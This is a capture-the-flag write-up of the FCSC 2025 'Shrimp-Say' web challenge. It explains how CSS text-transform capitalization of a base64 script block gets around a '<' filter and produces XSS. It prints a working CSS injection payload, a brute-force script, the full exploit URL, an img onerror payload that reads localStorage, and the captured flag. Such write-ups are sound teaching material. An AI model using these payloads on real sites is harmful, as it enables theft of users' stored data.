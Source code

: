 ```yaml
---
title: "Shrimp-Say [EN]| FCSC 2025"
date: 2025-04-26T12:00:00Z
description: "Here's a full writeup of the 'Shrimp-Say' web challenge created by Bitk at FCSC 2025."
tags: ["XSS"]
keywords: ["XSS"]
---
```

[//]: <> (Wrote By Vozec 27/04/2025)
---

# Introduction

The challenge presents us with a web application called "*shrimp-say*" and a bot service to interact with: 

- **Application Web**: [https://shrimp-say.fcsc.fr/](https://shrimp-say.fcsc.fr/)
- **Bot**: `nc chall.fcsc.fr 2203` *(No internet access)*

The web application allows users to manipulate two parameters, `msg` and `bg`, in its URL: 
```
https://shrimp-say.fcsc.fr/?msg=Hello%20Shrimp&bg=lightblue
```

These are reflected on the page: 
```html
<style>    
    body {
      background-color: lightblue;
    }
   ... 
</style>

...

<div class="speech-bubble">Hello Shrimp</div>
```

# Parameters Analysis 

- `msg`: This parameter undergoes filtering to prevent the inclusion of the **<** character, which could be used for HTML content injection.

```php
function redirect($msg, $bg)
{
  header("Location: /?msg=$msg&bg=$bg");
  die();
}

...

$msg = $_GET['msg'] ?? "Hello World";
...
if (strpos($msg, "<") !== false) {
  redirect("NO XSS", "red");
}
```

- `bg`:  Assigns a background color, but HTML encodes input, preventing straightforward XSS . However, it presents an opportunity for CSS injection.

```html
<head>
  <link rel="icon" href="data:,">
  <style>
    
    body {
      background-color: <?= htmlentities($bg) ?>;
    }
    
    ...
```

# Vulnerability Exploration 

The flag is stored in the local storage which quickly led me to conclude that javascript execution was required.  
```js
await page.evaluate((flag) => {
    localStorage.setItem("flag", flag);
  }, FLAG);
```

The application stores the `msg` parameter's *(filtered)* result as a Base64 encoded string within a `<script>` tag: 

Example
```html
<script type="text/base64" id="data">SGVsbG8gU2hyaW1w</script>
```

Later, JavaScript decodes this Base64 string and inserts the resultant HTML into a `<div>`: 
```js
document.querySelector(".speech-bubble").innerHTML = atob(document.getElementById('data').innerText);
```

A discrepancy lies in the use of    `text/base64` as a MIME type within the `<script>` tag. This MIME type is invalid per [MDN documentation](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/script/type) . Consequently, content within this tag isn't processed as JavaScript code but as a data block.

# CSS Exploitation 

Attempts to influence Base64 decoding directly were unsuccessful, as no character between 0 and 0x10FFFF decodes to `<` *(except for 0x3c)*. 

However, I discovered peculiar behavior with CSS transformations. Consider: 
```html
<div id="data" class="poc">abc</div>
<script>
console.log(atob(document.getElementById('data').innerText));
</script>
```
Output: `abc`

Adding CSS yields: 
```html
<style>
.poc {
  text-transform: uppercase;
}
</style>
<div id="data" class="poc">abc</div>
<script>
console.log(atob(document.getElementById('data').innerText));
</script>
```
Output: `ABC`

**CSS transformations affected the text content before decoding in JavaScript, suggesting an attack vector.** 

## Constructing the CSS Injection
By capitalizing only the first letter of the Base64 string `(text-transform: capitalize;)` and ensuring visibility `(display: block;)`, we influence the text transformation pre-decoding. 

CSS Injection Payload: 
```css
;}script{text-transform: capitalize;display: block;}
```

## Base64 Manipulation to Inject HTML 

Using PHP, I sought lowercase strings that, when capitalized, decode as `<im`.
```php
<?php
for ($i = 0x00; $i <= 0xFF; $i++) {
  for ($j = 0x00; $j <= 0xFF; $j++) {
    for ($k = 0x00; $k <= 0xFF; $k++) {
      if ($i === 0x3C || $j === 0x3C || $k === 0x3C) {
        continue;
      }
      $urlEncoded = sprintf("%%%02X%%%02X%%%02X", $i, $j, $k);
      $char = urldecode($urlEncoded);
      $b64 = base64_encode($char);
      $decoded = base64_decode(ucfirst($b64));

      if (strpos($decoded, '<im') !== false) {
        echo "Encoded: $b64, Decoded: $decoded\n";
      }
    }
  }
}
```

The script finds that `pGlt` transforms to `<im` after capitalization. (*PGlt*) 

Crafting a payload to inject JavaScript: 
```html
.img src/onerror=console.log(localStorage.getItem('flag'))>
```


The crafted URL for the bot interaction: 
```bash
http://shrimp-say/?msg=%a4%69%6d%67%2f%73%72%63%2f%6f%6e%65%72%72%6f%72%3d%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%6c%6f%63%61%6c%53%74%6f%72%61%67%65%2e%67%65%74%49%74%65%6d%28%27%66%6c%61%67%27%29%29%3e&bg==;}script{text-transform:%20capitalize;display:%20block;}
```

Leads to the following base64:
```
pGltZy9zcmMvb25lcnJvcj1jb25zb2xlLmxvZyhsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgnZmxhZycpKT4mYmc9PTt9c2NyaXB0e3RleHQtdHJhbnNmb3JtOiBjYXBpdGFsaXplO2Rpc3BsYXk6IGJsb2NrO30=
```

After applying the css, the base64 becomes
```
PGltZy9zcmMvb25lcnJvcj1jb25zb2xlLmxvZyhsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgnZmxhZycpKT4mYmc9PTt9c2NyaXB0e3RleHQtdHJhbnNmb3JtOiBjYXBpdGFsaXplO2Rpc3BsYXk6IGJsb2NrO30=
```

This leads to the following HTML code: 
```html
<img src/onerror=console.log(localStorage.getItem('flag'))>
```

# Flag

```bash
~/Desktop/tmp/FCSC » nc chall.fcsc.fr 2203
==========
Tips: Every console.log usage on the bot will be sent back to you :)
==========

Please provide the URL you want to visit:
http://shrimp-say/?msg=%a4%69%6d%67%2f%73%72%63%2f%6f%6e%65%72%72%6f%72%3d%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%6c%6f%63%61%6c%53%74%6f%72%61%67%65%2e%67%65%74%49%74%65%6d%28%27%66%6c%61%67%27%29%29%3e&bg==;}script{text-transform:%20capitalize;display:%20block;}

Starting the browser...
[T1]> New tab created!
[T1]> navigating        | about:blank

Setting the flag in the localStorage for http://shrimp-say/...
[T1]> navigating        | http://shrimp-say/?msg=Hello%20Shrimp&bg=lightblue

Going to the user provided link...
[T1]> navigating        | http://shrimp-say/?msg=%a4%69%6d%67%2f%73%72%63%2f%6f%6e%65%72%72%6f%72%3d%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%6c%6f%63%61%6c%53%74%6f%72%61%67%65%2e%67%65%74%49%74%65%6d%28%27%66%6c%61%67%27%29%29%3e&bg==;}script{text-transform:%20capitalize;display:%20block;}
[T1]> console.log       | FCSC{f6e865cb389605d91470af3b8555e4535463a1a56157c16c858fa8e9c5ff4513}

[ERROR] Invalid URL!
```

# Conclusion 
By leveraging CSS manipulation and an unconventional <script> tag handling, we circumvent client-side restrictions to execute stored JavaScript. This enables the bot to retrieve the flag, showcasing an intricate mix of PHP, CSS, and JS vulnerabilities.